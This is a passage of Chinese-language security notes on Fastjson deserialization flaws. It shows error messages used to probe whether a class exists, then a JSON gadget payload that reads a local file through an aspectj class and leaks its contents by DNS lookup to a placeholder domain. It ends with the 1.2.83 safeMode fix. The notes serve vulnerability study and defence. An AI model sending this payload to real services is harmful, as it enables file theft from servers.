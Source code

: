     - `com.mysql.jdbc.Driver`存在报错类似于
        
        ```java
        com.alibaba.fastjson.JSONException: can not cast java.lang.Class to char
        ```
        
    - `com.mysql.jdbc.Driver`不存在报错类似于
        
        ```java
        com.alibaba.fastjson.JSONException: class com.mysql.jdbc.Driver not found
        ```
        
    
    读文件
    
    ```java
    {
      "a": {
        "@type": "org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit",
        "fileName": "/path/to/harmless/example.txt"
      },
      "b": {
        "@type": "java.net.Inet4Address",
        "val": {
          "@type": "java.lang.String",
          "@type": "java.util.Locale",
          "val": {
            "@type": "com.alibaba.fastjson.JSONObject",
            "@type": "java.lang.String",
            "@type": "java.util.Locale",
            "language": {
              "@type": "java.lang.String",
              "$ref": "$.a"  // 触发"a"对象的toString()，即获取文件内容
            },
            "country": "your.dnslog.domain"
          }
        }
      }
    }
    ```
    
    要求：必须存在`aspectjweaver.jar`
    
    限制，通常只能读到最多253个字符
    

## 1.2.83

### 原理

大结局，修复 `Throwable` 漏洞，引入`safeMode`，只要开启会完全禁用 `autoType` 功能

开启代码：

```java
ParserConfig.getGlobalInstance().setSafeMode(true);
```
